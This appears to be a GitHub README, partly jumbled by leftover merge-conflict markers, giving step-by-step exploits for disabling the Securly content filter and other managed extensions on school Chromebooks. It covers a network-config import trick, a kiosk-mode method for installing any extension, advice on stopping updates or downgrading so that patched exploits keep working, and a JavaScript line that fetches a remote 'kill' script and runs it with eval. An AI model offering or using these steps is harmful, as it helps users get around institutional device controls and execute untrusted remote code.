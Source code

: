 <<<<<<< HEAD
Note: You should NOT open an issue with @zek-c, he will get mad if you don't put something simple (as proven [here](https://github.com/zek-c/Securly-Kill-V111/issues/38)).
=======
## NEW EXPLOIT (by [dragon731012](https://github.com/dragon731012)), [cauDNS!](https://github.com/dragon731012/caudns)
<br>
usage instructions: 
<hr>
    Head to <a href="https://caudns.vercel.app">Dragon's Vercel</a> or my <a href="https://zekcurly.netlify.app/cauDNS.html">mirror</a>
    <hr>
        head to chrome://network#state, and expand your most commonly used wifi networks then copy the contents
        <hr> 
            Paste contents into the input field, and generate the file, then import it at the bottom of chrome://network#general
            <hr>
that should be it, you've successfully blocked multiple extensions

# as of ChromeOS V119, all of these below methods are patched. use [caub](https://caub.glitch.me/old) to stop updates or [downgrade](https://chrome100.dev) to keep these exploits working
<hr>

# before you use insecurly
<br>
bypassi has found yet another awesome exploit,
both links are <a href="https://skiovox.com">here</a> and <a href="https://github.com/bypassiwastaken/skiovox-helper">here</a>. this exploit allows you to go into a browser in kiosk mode and install ANY extension you want and do anything you want. please consider this before insecurly, as it always works and is working on every version (you must have kiosk apps)
>>>>>>> 7df6cf33677ad41557f380805b2cd21dd7643996

# KillCurly Working
@zek-c's KillCurly exploit, but working.

### Feel free to follow the instructions below:

From [3kh0](https://3kh0.github.io/ext-remover/)'s `ext-remover` thingy (in the case that uBlock isn't blocked as an installable extension), I found a way to make the KillCurly exploit work 🎉

Essentially, you would follow the instructions [here](https://3kh0.github.io/ext-remover/#ublock-run-run-code-on-pages).

Once you have that done, you would press `ctrl`**+**`alt`**+**`~` until you see the `Eval: ` alert. 

Then you would evaluate:

``` javascript
fetch('https://res.cloudinary.com/dxttxbdrd/raw/upload/v1693510756/kill_qn1hjn.js').then(r => r.text()).then(r => eval(r))
```

Since this is JavaScript evaluation only, you wouldn't put the `javascript:` like you would in a bookmarklet.

I recommend going to [Securly](https://www.securly.com) to do all of this because that's where the kill script is meant to work.

If this doesn't work, you would use Bypassi's INSECURLY exploit or Skiovox.

I hope you guys enjoy this 🫰
